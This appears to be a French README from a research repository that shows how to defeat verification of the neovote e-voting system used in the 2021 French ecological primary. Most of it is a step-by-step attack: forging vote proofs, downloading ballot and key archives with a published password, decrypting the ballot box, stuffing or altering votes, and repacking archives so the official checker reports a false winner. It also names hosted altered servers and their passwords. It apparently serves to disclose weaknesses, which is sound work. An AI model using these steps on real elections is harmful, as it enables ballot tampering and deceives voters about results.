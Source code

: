 Un peu d'analyse du système [neovote](https://neovote.com) utilisé pour la primaire écologique de 2021.

1 - Outils
==========

Générer une fausse preuve de vote:

```shell
$ python generate_invalid_proof.py
5Ehjzb4WmzpEmKhhvXBEcTV3sSAyR_62i5P1wqwCfcLnQKZW62UomrzyVuz5jeBv-oXSDpaW0kz-RjCAzpzV_aEFiLkISVBamu88Ic7KravGCJNI6DHupQgPlmnYNEl2hZab-I2m80oQV_nnUKoY7tlbIKj-fYXDCfgIwyvVfS7UmawjagkSYjO-ypF8Gazfv1RbVod0YxLlelLY0z65W1Fgvgxvgx4oFsHSQJzTPKqCw0fAgXfSRSoCWFwhlV4Qh0BtNRbOIQviDc2nOsRjSTiOoApai6IHupE_VyfGD5UYyMGW0ViZNQhL4NspQzmhXSF7enOyv1A5NR5IdpRVCPJ84sZ6_CsEQIlhRVqmbLImYIi2582Afj4RpdgwkW0N50RVBlwK3652Iom7poqhVpqdjIbx9doPX_X2dczNx_DFhiboNs7ULqXx74p7A_sRWpL3kI_Z6UzWQfgyhf1WNhL6_Gb7QWDS8cDjccXLCdjEcu7OmmPOmXnwmr3KApCHNlS87HlIIcsLHXd9-1QR_w@@
```

Déchiffrer une preuve de vote pour en extraire les hashes:

```shell
$ MY_PROOF=$(python generate_invalid_proof.py)
$ python decrypt_proof.py $MY_PROOF
Your proof contains the following hashes:
EIKBGEq_QpF3nAjHOZJvXdV6KTscq3qjAUDObdvSnm0CEDnNsu8JLHFFWW_1aM8VxEySINTJOzYkUfvN_zFi2A@@
8XqbwjZZwZjK5cOoh0jsGutQgzhZhiDA4Flu4ib6QSyTRAgkClM3wZE2bXwo5rRwJSVuaKBpLC-DRC81Jjb5_g@@
Dq1sNpv8rkqwWDZp7n1CMMtcRdZDpQEfyFxBojHNCIECbckGA5j8YnMWvIgzAe7oMUYOu9hsyInCM7wbA8gLkQ@@
e1aBpILgnEJbMM96G6ZVig87T2nRJ6fwtPPTsUPVt0fcLla9BUHe7IlkUP8cdQcfIZM1FWmR4CFPzsa-Nc2bXw@@
hpPE7r89WZNf9ThdQtHIANB2ywEN8rAWqjarNyb6L5wiLylsgsXR8X8_Hepbw6zKjk3pPu1w95Pt5lxR0V48Pw@@
```

Télécharger les archives de l'urne et les clés de chiffrement:

```shell
curl -X POST https://primaire.neovote.com/65fae701f14479f676bf4d43cbcb2d5f9d98163afa79518b8416b7536e97ba03 --data 'authKey=biè2Rrwû_çb7TWQà' --output BallotBoxExport.zip
curl -X POST https://primaire.neovote.com/474eccbbc08d2d76b8743bcb84ef15490ee1cdee75ff45fe6153a108ec12342e --data 'authKey=biè2Rrwû_çb7TWQà' --output BallotKeysExport.zip
```

Décompresser les archives de l'urne et les clés de chiffrement:

```shell
7z x -obox ./BallotBoxExport.zip -pbiè2Rrwû_çb7TWQà
php -r 'exec("7za x -y -okeys  ../BallotKeysExport.zip -p" . utf8_decode("biè2Rrwû_çb7TWQà"), $rows, $ret);'  # Hold my beer
```

L'utilisation de caractères accentués dans l'achive pose de gros problèmes de portabilité.
En effet le format zip ne spécifie pas l'encodage à utiliser dans les mot de passes, de fait
celui-ci est arbitraire en fonction du logiciel, de sa version, de l'OS ou encore de la façon de l'exécuter...

Une fois décompressée, l'urne à proprement parlé peut être déchiffrée:

```shell
python unpack_ballot_data.py box/1M-9493O-5D-2B-1C-2T-8S/ballot_data.csv --key-file=keys/1M-9493O-5D-2B-1C-2T-8S.pem --output=ballot_data.json
```

À ce moment l'urne peut être altérée:

```shell
python alter_box.py ./ballot_data.json --action=add --output=altered_ballot_data.json
```

Puis reconstruite en son format chiffré:

```shell
cp -R box altered_box
python repack_ballot_data.py ./altered_ballot_data.json --key-file=keys/1M-9493O-5D-2B-1C-2T-8S.pem --output=altered_box/1M-9493O-5D-2B-1C-2T-8S/ballot_data.csv
```

Enfin l'archive d'urne peut être reconstruite (le mot de passe doit faire obligatoirement
16 caractères pour être accepté par le script de [www.verifier-mon-vote.fr](https://www.verifier-mon-vote.fr/)).

```shell
cd alter_box && 7za a ./BallotBoxExport.zip -pAAAAAAAAAAAAAAAA
# Vu que je n'ai pas réussi à réutiliser le mdp d'origine, l'archive de clé doit aussi être reconstruite...
cd keys && 7za a ./BallotKeysExport.zip -pAAAAAAAAAAAAAAAA
```

2 - Archives modifiées
======================

Le répertoire `altered` contient des archives ayant été altérées pour fausser les résultats :

- `swap`: l'archive a été modifiée pour inverser l'identifiant des candidats
- `add`: l'urne a été bourrée avec des votes additionels (toutes les preuves de votes sont toujours valides, par contre le nombre de votant ne correspond plus à la liste d'émargement)
- `replace`: certains votes on été modifiés (toutes les preuves de votes sont toujours valides ET le nombre de votes correspond à la liste d'émargement !)

Dans les trois cas, la vérification de l'urne indique une victoired du mauvais candidat au second tour, cf. copies d'écrans:

- [swap](altered/swap/result.png)
- [add](altered/add/result.png)
- [replace](altered/replace/result.png)
- [original (archive non modifiée)](altered/original/result.png)

Ces archives peuvent être testées depuis le site officiel de vérification [www.verifier-mon-vote.fr](https://www.verifier-mon-vote.fr/):

| type                            | Adresse du serveur de vote                 | Mot de passe       |
|---------------------------------|--------------------------------------------|--------------------|
| swap                            | primaire-altered-by-swap.touilleman.xyz    | `altered_by_swap_` |
| add                             | primaire-altered-by-add.touilleman.xyz     | `_altered_by_add_` |
| replace                         | primaire-altered-by-replace.touilleman.xyz | `alteredBYreplace` |
| original (archive non modifiée) | primaire.neovote.com                       | `biè2Rrwû_çb7TWQà` |

Utilisez votre propre preuve de vote, où à défault celle-là:

```raw
v46Vy31AZeeR6jIvGrqV240VTNr7fYdedwW-QmBKk2dWX6PM-pyDmJdulynelEEzwVj7s0ydMEB5OJQJAd9XkG30xDiDkFb9r33sMZ6SxeP7QzZTF0268xfuhMgt761DzBZTXc4PxtuezxO0W4SRuHsEmdUuwQ-2kCTqU-6tyx0T8r8HcfiN9Tz84hbJ-mf9m_sXhNTqEbxnUD_kt9_NMpJA2UY88Pj4GRkbiW1xdudGRy9kr8ln7nh1er1cSyusP50BHqGivSKZCFR7GJWgmSsJgG6n-WwChJjl5dZzhzAw4yVYVvIS6Y9rH2ME_evgbNGoTTsV7PtMiV12F_syMKQxFbTxe1MGX14FrdSRBDW7mTLQTXR7u0ViGtrR9ZmSfcfZ3Be7UKHMHifY5MYEMZSmu3OQWVowJNu2goNtsXWmdwIhqDz-UzyEyBU9UczLKjeK2CdB8RCUB5R8NZwSakRR1E9OQtoCQhXsHcQBPptQbvEe6HSNNtuTGxZlj8YQozKz0liZdaL-sflCD7LUUg@@
```

Cette preuve du 2nd tour contient les hashes de trois votes ayant été remplacé (dans l'attaque "replace") et deux autres
votes ayant été pris aléatoirement dans l'urne. Malgrés le remplacement, le site de vérification considère la preuve
toujours valide ;-)

Les hashes sont:
```raw
2VfUCQIXiLn12GqUSlzrx7YvF2gFVpighvhFD2By5x-i1VxtuCNkJU56aRY3sYGuwEgdBePBtqgC5wsuI1Nc-g@@
xZmJ4iIfuvVCIv4kYO2st2uKRK_XqVdIqctBkxAzyynhmW1toxv7t7YLEJ4Klx6wcivauh4DNIFk8dhkTbr4MA@@
MOHztrni9eD3ppKTsluKe__IrHA2rQAfv7M9Tze338qmKr0QvSfOyIpciLBuql7uWZXHN9CPhoYMvUZe0uHObA@@
2j9rw1IiGklTBnVrcUOkBqSLO7_WMZuD39_jAoGHtZ5p0k-3cVOedI8F00H0QTd1aefyRcn35HiCKe7GxzNK-w@@
xtPtV2ZcsQuZ45zk4IanzB0uSFLdRy4DJW5gHRb3-ZsTcSSH8MRa9X5JvwgIr55SrAgh1T-GaswzSCZcAUXpEA@@
```

Le site de vérification a tendance à crasher à cause de la charge de travail nécessaire à la vérification (la 100aine
de milliers de RSA dans l'urne à déchiffrer n'aide pas...).

De fait le site met beaucoup de temps à répondre et peut finir en indiquant qu'une erreur à eu lieu, dans ce cas il
faut redémarrer l'opération (le site garde un cache interne du travail déjà réalisé donc l'opération finie par aboutir)
